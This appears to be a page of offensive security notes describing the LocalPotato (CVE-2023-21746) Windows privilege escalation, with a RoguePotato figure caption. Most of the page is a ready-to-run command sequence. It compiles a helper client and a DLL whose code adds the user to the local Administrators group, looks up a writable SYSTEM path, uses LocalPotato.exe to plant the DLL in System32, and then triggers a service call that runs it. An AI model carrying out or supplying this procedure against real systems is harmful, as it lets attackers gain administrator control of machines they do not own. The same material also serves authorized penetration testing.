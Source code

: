 ![](<../../.gitbook/assets/image (25).png>)

<figure><img src="../../.gitbook/assets/image (18).png" alt=""><figcaption><p>RoguePotato principle</p></figcaption></figure>

### LocalPotato (CVE-2023-21746)

{% code overflow="wrap" fullWidth="true" %}
```bash
https://github.com/decoder-it/LocalPotato
https:/github.com/blackarrowsec/redteam-research/tree/master/LPE%20via%20StorSvc

# 1 - Compile RpcClient.exe but before that go to storsvc_c.c and change the #define to select the correct Windows version and then
C:\> cd C:\tools\LPE via StorSvc\RpcClient\
C:\tools\LPE via StorSvc\RpcClient> msbuild RpcClient.sln
# Now to compile SprintCSP.dll, we only need to modify the DoStuff() function on main.c to make ourselves part of Administrators
CreateProcess(L"c:\\windows\\system32\\cmd.exe",L" /C net localgroup administrators user /add",...
C:\> cd C:\tools\LPE via StorSvc\SprintCSP\
C:\tools\LPE via StorSvc\SprintCSP> msbuild SprintCSP.sln
# Find writable SYSTEM path
C:\> reg query "HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\Environment" -v Path
# Copy SprintCSP.dll to the writable path using LocalPotato.exe
C:\Users\user\Desktop> LocalPotato.exe -i SprintCSP.dll -o \Windows\System32\SprintCSP.dll
# run RpcClient.exe to trigger the call to SvcRebootToFlashingMode, effectively executing the payload in our DLL
```